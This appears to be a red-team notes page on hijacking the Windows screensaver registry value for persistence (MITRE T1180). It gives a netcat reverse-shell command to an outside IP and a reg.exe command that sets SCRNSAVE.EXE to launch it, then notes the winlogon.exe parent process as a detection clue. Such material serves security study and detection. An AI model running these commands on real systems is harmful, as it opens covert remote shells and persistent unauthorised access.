 ```yaml
---
description: Hijacking screensaver for persistence.
---
```


# Screensaver Hijack

## Execution

To achieve persistence, the attacker can modify `SCRNSAVE.EXE` value in the registry `HKCU\Control Panel\Desktop\` and change its data to point to any malicious file.

In this test, I will use a netcat reverse shell as my malicious payload:

{% code title="c:\shell.cmd@victim" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Let's update the registry:

![](../../.gitbook/assets/screensaver-registry.png)

The same could be achieved using a native Windows binary reg.exe:

{% code title="attacker@victim" %}
```bash
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\shell.cmd
```
{% endcode %}

![](../../.gitbook/assets/screensaver-reg.png)

## Observations

Note the process ancestry on the victim system - the reverse shell process traces back to winlogon.exe as the parent process, which is responsible for managing user logons/logoffs. This is highly suspect and should warrant a further investigation:

![](../../.gitbook/assets/screensaver-shell.png)

![](../../.gitbook/assets/screensaver-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1180" %}
